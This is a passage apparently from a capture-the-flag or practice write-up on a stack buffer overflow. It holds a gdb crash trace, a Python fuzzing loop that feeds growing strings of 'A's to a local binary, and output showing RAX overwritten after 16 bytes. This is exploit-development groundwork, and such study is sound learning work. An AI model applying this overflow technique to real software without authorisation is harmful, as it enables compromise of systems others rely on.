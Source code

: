 ```

Program received signal SIGSEGV, Segmentation fault.
0x00000000004012a4 in main ()
(gdb) info registers
rax            0x0                 0
```

Some fuzzing helps me determine that `RAX` starts to get overwritten after 16 characters of input
```python
def fuzz(p):
	data = 'A' * 16
	n = 0
	p.sendline("break *0x00000000004012a4")
	while True:
		print("############################")
		print("# Now with " + str(n + 16) + " As           #")
		print("############################")
		p.sendline("r")
		p.recvuntil(">")
		payload = data + 'A' * n + "\n"
		p.send(payload)
		#p.interactive()
		p.recvuntil("Breakpoint ")
		d = p.recv()
		print("Breakpoint " + cleanLine(d))
		printStack(p, 20)
		getInfoRegs(p)
		n += 1
		p.sendline("c")
		p.recv(timeout=0.05)
		if n == 23:
			break
```
```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 newdbg.py
############################
# Now with 16 As           #
############################
Breakpoint 1, 0x00000000004012a4 in main ()
0x7fffffffddb0:    0x41414141    0x41414141    0x41414141    0x41414141
0x7fffffffddc0:    0x00000000    0x00000000    0x00000000    0x00000000
rax            0x0                 0

############################
# Now with 17 As           #
############################
Breakpoint 1, 0x00000000004012a4 in main ()
0x7fffffffddb0:    0x41414141    0x41414141    0x41414141    0x41414141
0x7fffffffddc0:    0x00000041    0x00000000    0x00000000    0x00000000
rax            0x41                65

...omitted for brevity...
############################
# Now with 20 As           #
############################
Breakpoint 1, 0x00000000004012a4 in main ()
0x7fffffffddb0:    0x41414141    0x41414141    0x41414141    0x41414141
0x7fffffffddc0:    0x41414141    0x00000000    0x00000000    0x00000000
rax            0x41414141          1094795585
```
